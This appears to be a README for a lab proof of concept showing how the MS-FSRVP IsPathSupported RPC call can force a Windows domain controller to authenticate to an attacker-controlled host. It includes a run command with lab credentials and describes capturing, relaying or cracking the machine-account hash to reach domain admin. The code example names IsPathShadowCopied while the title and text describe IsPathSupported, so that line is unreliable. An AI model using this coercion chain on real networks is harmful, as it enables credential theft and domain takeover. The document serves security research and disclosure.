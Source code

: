 # MS-FSRVP - Remote call to IsPathSupported (opnum 8)

## Summary

+ **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

+ **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

+ **Protocol version**: 1.0

+ **Function name**: [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb)

+ **Function operation number**: `8`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\FssagentRpc` and bind to (uuid `a8e0653c-2744-4389-a61d-7373df8b2292`, version `1.0`) in order to perform calls to RPC functions of the `MS-FSRVP` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\FssagentRpc`. This pipe is connected to the [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. It will then call the remote [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
IsPathShadowCopied('\\192.168.2.51\NETLOGON\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD IsPathSupported(
    [in] handle_t hBinding,
    [in] [string] LPWSTR ShareName,
    [out] BOOL* SupportedByThisProvider,
    [out] [string] LPWSTR* OwnerMachineName
);
```

+ **hBinding**:  An RPC binding handle (as defined in [C706]).


+ **ShareName**: The full path of the share in UNC format.


+ **SupportedByThisProvider**:  A Boolean, when set to TRUE, that indicates that shadow copies of this share are supported by the server.


+ **OwnerMachineName**:  The name of the server machine to which the client MUST connect to create shadow copies of the specified ShareName. 

## References

+ Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b


+ Documentation of function `IsPathSupported`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb

+ This call was pointed out by [@topotam77](https://twitter.com/topotam77/) on Dec 28, 2021: https://twitter.com/topotam77/status/1475701014204461056